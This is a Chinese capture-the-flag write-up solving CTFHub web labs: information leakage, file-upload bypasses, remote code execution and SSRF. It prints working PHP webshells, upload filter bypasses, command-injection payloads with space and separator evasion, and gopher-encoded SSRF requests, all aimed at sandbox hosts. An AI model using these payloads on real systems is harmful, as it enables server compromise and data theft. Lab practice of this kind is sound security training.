# CTFHub WriteUp(web)


### 信息泄露

---


#### 1、目录遍历

根据规律构建python脚本

```python
import requests

url = "http://challenge-eec3a48df115459e.sandbox.ctfhub.com:10800/flag_in_here/"

for i in range(5):

  for j in range(5):

    url_test = url + "/" + str(i) + "/" + str(j)

    r = requests.get(url_test)

    r.encoding = 'utf-8'

    get_file = r.text

    if "flag.txt" in get_file:

      print(url_test)
```






---


#### 2、PHPINFO

点开phpinfo.php，记录的php信息

CTRL+F搜索flag



[深入解析：CTFHub 信息泄露通关笔记2：PHPINFO泄露 - slgkaifa - 博客园](https://www.cnblogs.com/slgkaifa/p/19149463#1、什么是phpinfo？)


---


#### 3、备份文件下载

##### 网站源码

提示目录和文件后缀，尝试爆破

bp抓包发到攻击器intruder

在路径/1.1将两个`1`设成两个payload变量，攻击模式选择集束炸弹



payloads position1-1列表添加目录



2-1添加上后缀名



开始爆破



得到响应200时的路径`/www.zip`

访问后下载压缩包，打开文件提示`where is flag ??`



注意到是文本文件，将文件名作为路径访问/flag_420015653.txt



得到flag


##### bak文件

提示flag在index.php当中

访问`/index.php`，还是一样

有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak。而大部分Web Server对bak文件并不做任何处理，导致可以直接下载

访问`/index.php.bak`，弹出下载

打开就是flag


##### vim缓存

参考[CTFHUB 信息泄露题目 备份文件下载(网站源码、bak文件、vim缓存、.DS_Store)_index.php.swp-CSDN博客](https://blog.csdn.net/bailuy/article/details/108502602)

在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容

以 index.php 为例：第一次产生的交换文件名为 .index.php.swp

访问`/.index.php.swp`

下载文件index.php.swp，将其复制到kali，用vim编辑器打开



按**R**恢复，enter打开得到flag




##### .DS_Store

.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。

访问`/.DS_Store`

下载文件，复制到Linux

cat查看，有一个txt文件，提示有flag，加到url打开

```
/7fc58f94dfb00dc91c5ef3611b2e0c00.txt
```




---


#### 4、Git泄露

当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。

##### Log

需要使用BugScanTeam的GitHack

克隆仓库

```
sudo git clone https://github.com/BugScanTeam/GitHack
```

进入目录，用**python2**执行.py文件

```
cd GitHack
sudo python2 GitHack.py http://www.example.com/.git
```

GitHack工具可还原 `.git` 目录中的完整仓库，工具会自动从目标 `.git` 目录下载文件，还原后的项目存储在 `dist/目标域名/` 目录中，包含完整源代码和版本历史



还原后进入目录中

```
cd dist/challenge-39c106a3b227686b.sandbox.ctfhub.com_10800
```

再执行`git log`查看日志记录



注意到有add flag的记录，记下commit

执行git reset，切换到add flag版本的代码，查看库发现多出来一个文本文件，里面是flag

```
sudo git reset --hard f7954a8377ac4a69604af9d572d38a4a8431b110
```




##### Stash

同上一题`log`

最后

查看stash暂存记录

```
git stash list
```



恢复暂存记录

```
sudo git stash pop
```



或者使用`git diff`版本比较查看add flag版本的变化，有些版本是`git log diff`，后面接`add flag`版本的commit，commit用`git log`查看

```
git diff 97c901fa9fb925c5d94279309407e2e34c93841c
```




##### Index

同上，clone成功后访问其中的.txt文件


---


#### 5、SVN泄露

当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞。

需要使用SVN泄露的漏洞利用工具dvcs-ripper，可以直接在ctfhub搜到下载

https://github.com/kost/dvcs-ripper

放到kali当中

切换到工具目录`/dvcs-ripper-master`

安装依赖

```
sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl
```

将泄露的文件下载到本地目录中

```
./rip-svn.pl -u http://example.com:port/.svn
```



查看所有文件

```
ls -al
```



切换到.svn目录，再切到pristine

```
cd .svn
cd pristine
```

逐个查看里面的文件，或者搜寻ctfhub

```
grep -rn "ctfhub"
```




---


#### 6、HG泄露

当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。

dirsearch扫出`.hg`目录

用工具dvcs-ripper将泄露的文件下载到本地目录中

```
./rip-hg.pl -u http://example.com:port/.hg
```



显示404报错，用命令`tree .hg`，列出刚刚下载的网站目录



查看`last-message.txt`，内容`add flag`，提示旧版本

直接查找`flag`

```
grep -a -r flag
```



尝试访问`/flag_2393610704.txt`

```
curl http://challenge-205d2fc13c467b80.sandbox.ctfhub.com:10800/flag_2393610704.txt
```




---


### 文件上传

---


#### 1、无验证

打开是个上传文件的网页

上传一句话木马用于远程连接，新建一个.php文件，内容如下

```
<?php @eval($_POST['123']);?>
```

再将文件上传

提示上传成功



提示文件路径`upload/123.php`



打开蚁剑连接

```
http://challenge-a2c63090c713408d.sandbox.ctfhub.com:10800/upload/123.php
```

密码就是木马里设置的`123`



测试成功后添加，双击打开

可以访问服务器文件，逐级往上翻找




---


#### 2、前端验证

上传.php格式木马时提示不允许



右键->检查->源代码，找到JavaScript部分



前端校验只允许`".jpg",".png",".gif"`格式文件上传

将木马后缀修改成允许的后缀再上传，提示上传成功

但是图像文件会让靶机无法读取php代码，所以需要bp改包

用burp suite抓包发到重放器repeater

将头部Content-Disposition字段的filename改成123.php



再发送，返回上传成功

打开蚁剑，地址栏还是填`upload/123.php`




---


#### 3、.htaccess

.htaccess文件是用于apache服务器下的控制文件访问的配置文件，因此Nginx下是不会生效的

.htaccess可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档、文件的跳转等功能。

访问靶机，尝试上传.php一句话木马，提示文件类型不匹配



查看源码，提示我们后端校验禁止上传php格式，尝试htaccess改配置



创建一个文本，写入

```
AddType application/x-httpd-php .png
```

重命文件名为`.htaccess`，将其上传

成功后就可以上传.png后缀的一句话木马文件，而且将`.png`文件当作php代码执行，意味着可以运行一句话木马

然后蚁剑连接


---


#### 4、MIME绕过

浏览器通常使用MIME类型（而不是文件扩展名）来确定如何处理URL，因此Web服务器在响应头中添加正确的MIME类型非常重要。如果配置不正确，浏览器可能会曲解文件内容，网站将无法正常工作，并且下载的文件也会被错误处理。

直接上传`.php`后缀的一句话木马，提示文件类型不对

bp抓包，将请求体中的**Content-Type**字段改成

```
image/png
```



提示上传成功，路径upload/123.php

再用蚁剑连接即可


---


#### 5、00截断

%00，0x00，/00都属于00截断，利用的是服务器的解析漏洞（ascii中0表示字符串结束），所以读取字符串到00就会停止，认为已经结束。

使用%00截断有两个条件

php版本小于5.3.4
magic_quotes_gpc为off状态

直接传`.php`木马提示文件类型不匹配，查看源码



提示白名单"jpg", "png", "gif"格式可以上传

将木马文件后缀改成`.php.jpg`

上传pb抓包

在header路径使用00截断



加上123.php%00



发送，返回上传成功

蚁剑连接


---


#### 6、双写后缀

直接上传.php木马，提示上传成功，但路径显示文件没有后缀



查看网页源码，提示网站黑名单，包括`.php`，`.htaccess`后缀，上传后会将后缀中的敏感字删除

bp改包，将文件名改成123.pphphp



蚁剑连接123.php


---


#### 7、文件头检查

直接传`.php`木马提示只允许上传 jpeg jpg png gif 类型的文件



添加`GIF89a`到木马文件头部



如果不添加gif文件头，直接上传，提示文件错误



方法一(MIME)

上传`123.php`，bp改包将**Content-Type**改成`image/gif`，发送，成功，连接蚁剑



方法二

上传`.gif`文件，再改包将**filename**的后缀改成`.php`




---


### RCE

---


#### 1、eval执行

打开靶场，eval()函数将传入的cmd参数当作php代码执行



这里直接提示可通过参数cmd传入php代码，打开cmd

```
curl "http://challenge-0a8ae9745c8d5abd.sandbox.ctfhub.com:10800/?cmd=system('ls+/');"
```



url中+代替空格，`ls /`查看根目录，发现目录flag_30687，cat查看

```
curl "http://challenge-0a8ae9745c8d5abd.sandbox.ctfhub.com:10800/?cmd=system('cat+/flag_30687');"
```



找到flag

也可以传入一句话木马，用webshell连接

```
cmd= fputs(fopen('shell.php','w'),'<?php @eval(_POST\[123\]);?\>');
```


---


#### 2、文件包含

打开提示file传参



shell.txt内容是一句话木马



构造url

```
/?file=shell.txt
```



用蚁剑连接



找到flag




---


#### 3、php://input

提示php://伪协议



打开phpinfo，允许文件包含，可以执行远程代码



bp抓包改包

头部改成post请求，使用php://input伪协议

```
POST /?file=php://input HTTP/1.1
```

请求体中创建shell.php，写入一句话木马

```
<?php file_put_contents('shell.php', '<?php @eval($_POST["cmd"]);?>');?>
```

蚁剑连接`/shell.php`

找到flag


---


#### 4、远程包含

可以同3、php://input

如果有自己的服务器，可以传递服务器上的木马文件，再用蚁剑远程连接


---


#### 5、读取源代码

```
?file=php://filter/resource=/flag
```



##### php://伪协议

[PHP伪协议深度解析：绕过限制与安全风险-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120695429)


---


#### 6、CTFHub 命令注入

提示无过滤

构造payload，写入一句话木马

```
127.0.0.1 &echo "<?php @eval(\$_POST['123']);?>" >> shell.php
```

蚁剑连接

or

```
127.0.0.1 | ls
127.0.0.1 | cat 
```

浏览器将内容当html处理了，查看页面源码就能看到




---


#### 7、过滤cat

```
127.0.0.1 | ls
127.0.0.1 | more flag_30958210968888.php
查看页面源码即可
```

less、head、tac都可以


---


#### 8、过滤空格

```
127.0.0.1|ls
127.0.0.1|cat$IFS$1flag_12802294047863.php
查看页面源码即可
```

代替空格

```
${IFS}
$IFS$1
< 
```

##### 更多：[绕过空格过滤](https://blog.csdn.net/weixin_39190897/article/details/116247765)


---


#### 9、过滤目录分隔符

利用';'拼接命令绕过

```
127.0.0.1 | ls
127.0.0.1 ; cd flag_is_here ; ls
127.0.0.1 ; cd flag_is_here ; cat flag_5422868316779.php
查看页面源码即可
```


---


#### 10、过滤运算符

没有过滤`;`

```
127.0.0.1 ; ls
127.0.0.1 ; cat flag_1986153693728.php
查看页面源码即可
```

也可使用换行符`%0a`，替换到url中

```
?ip=127.0.0.1%0als
```


---


#### 11、综合过滤练习

`%0a`换行符分隔命令

`$IFS$1`替代空格

`fl*`模糊匹配**flag**

替换url

```
?ip=127.0.0.1%0als
?ip=127.0.0.1%0acd$IFS$1fl*%0als
?ip=127.0.0.1%0acd$IFS$1fl*%0atac$IFS$1fl*
```

##### 参考博客[绕过bypass_远程命令执行绕过](https://blog.csdn.net/qq_41315957/article/details/118855865)


---


### SSRF

---


#### 1、内网访问

题目提示：尝试访问位于127.0.0.1的flag.php

url栏已有参数

```
?url=_
```

构造payload

```
?url=127.0.0.1/flag.php
```




---


#### 2、伪协议读取文件

提示web目录，一般web服务路径就是/var/www/html/

```
?url=file:///var/www/html/flag.php
```



查看页面源码即可


---


#### 3、端口扫描

提示扫8000到9000的端口，那就用bp爆破

dict协议和http协议都可以用来探测端口存活

```
?url=dict://127.0.0.1:8000
?url=http://127.0.0.1:8000
```

抓包发到攻击器，添加端口部分为payload，选择数字，8000到9000

爆破完筛选响应长度




---


#### 4、POST请求

dirsearch扫描目录得到两个文件`/flag.php`，`/index.php`

查看`/flag.php`

```
?url=file:///var/www/html/flag.php
```

打开是空白，查看源码

```
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
```

提示访问`127.0.0.1/flag.php`



```
key=b40bb514b81c81d8f238ba14fbd0cff5
```

到这先放着，看另一个文件

```
?url=file:///var/www/html/index.php
```

```
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

代码直接将用户输入的 `url` 参数传给 cURL，攻击者可以让服务器访问任意地址

需要使用gopher协议使服务器发出请求

构造POST请求的HTTP数据包

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=b40bb514b81c81d8f238ba14fbd0cff5
```

然后对其进行url编码，但有几点因为gopher协议本身规定

> [!CAUTION]
>
> 问号（？）需要转码为URL编码，也就是`%3f`
>
> 回车换行要变为`%0d%0a`，但如果直接用工具转，可能只会有`%0a`
>
> 在HTTP包的最后也要加`%0d%0a`，代表消息结束（具体可研究HTTP包结束）

##### gopher协议大佬详解

[Gopher协议在SSRF漏洞中的深入研究 | 青云阁](https://ayuniversity.github.io/2025/04/16/Gopher协议在SSRF漏洞中的深入研究/)

第一次编码，将post请求包构造成 gopher 链接

```
POST%20/flag.php%20HTTP/1.1%0d%0AHost:%20127.0.0.1:80%0d%0AContent-Type:%20application/x-www-form-urlencoded%0d%0AContent-Length:%2036%0d%0A%0d%0Akey=b40bb514b81c81d8f238ba14fbd0cff5%0d%0a
```

前面加上`gopher://127.0.0.1:80/_`

第二次编码，这个 gopher 链接是放在 `?url=` 参数里的，它本身也是一个 URL

*如果还是疑惑为什么要两次，大佬详解链接*[SSRF之gopher协议使用与URL编码转换问题 | Red的小屋](https://redshome.top/posts/2023-01-13-58/)

```
gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=b40bb514b81c81d8f238ba14fbd0cff5%250d%250a
```



或者使用python脚本urllib.parse.quote函数，

##### 大佬gopher编码脚本

[CTFHub SSRF通关笔记3-2：Gopher POST请求 原理详解与渗透实战（python脚本法）_python实现post数据生成gopher payload-CSDN博客](https://blog.csdn.net/mooyuan/article/details/151332497)

```python
import urllib.parse


payload = """POST /flag.php HTTP/1.1

Host: 127.0.0.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 36

key=b40bb514b81c81d8f238ba14fbd0cff5"""

print("[+] 构造的POST请求:")

print(payload)

print()


payload = payload.replace("\n", "\r\n")

gopher_payload = f"gopher://127.0.0.1:80/_{urllib.parse.quote(payload)}"


print("[+] Gopher URL:")

print(gopher_payload)

print()

 


final_url = f"?url={urllib.parse.quote(gopher_payload)}"

print("[+] 最终请求URL:")

print(final_url)

print()
```

得到最终请求URL

```
?url=gopher%3A//127.0.0.1%3A80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253Db40bb514b81c81d8f238ba14fbd0cff5
```


---


#### 5、上传文件

提示查看flag.php

发现文件上传点，先补上提交按钮，上传一个非空文件

```
<input type="submit" name="submit">
```



提交，提示从本地上传，bp抓包

将这个post请求构造成gopher 链接

HOST字段改成`127.0.0.1:80`

用python脚本二次编码得到payload


---

